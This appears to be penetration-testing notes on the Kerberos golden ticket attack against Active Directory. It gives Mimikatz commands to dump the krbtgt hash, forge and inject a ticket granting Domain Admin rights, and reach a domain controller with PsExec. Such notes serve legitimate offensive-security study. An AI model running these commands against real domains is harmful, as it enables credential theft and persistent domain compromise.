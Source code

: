 # Overview
>When a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is the password hash of a domain user account called [_krbtgt_](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#Sec_KRBTGT).
>If we can get our hands on the _krbtgt_ password hash, we could create our own self-made custom TGTs, also known as [_golden tickets_](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf).

# Exploit
For example, we could create a TGT stating that a non-privileged user is a member of the Domain Admins group, and the domain controller will trust it because it is correctly encrypted. This provides a neat way of keeping persistence in an Active Directory environment, but the best advantage is that the _krbtgt_ account password is not automatically changed.

>The golden ticket will require us to have access to a Domain Admin's group account or to have compromised the domain controller itself to work as a persistence method. With this kind of access, we can extract the password hash of the _krbtgt_ account with Mimikatz.

- Gather the hash of the krbtgt account :
```cmd
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
```

>Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain.

```cmd
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
mimikatz # misc::cmd
```

- The golden ticket is injected into memory. It has added our user to Domain Admin Group.
```cmd
PsExec.exe \\dc1 cmd.exe
whoami /priv
```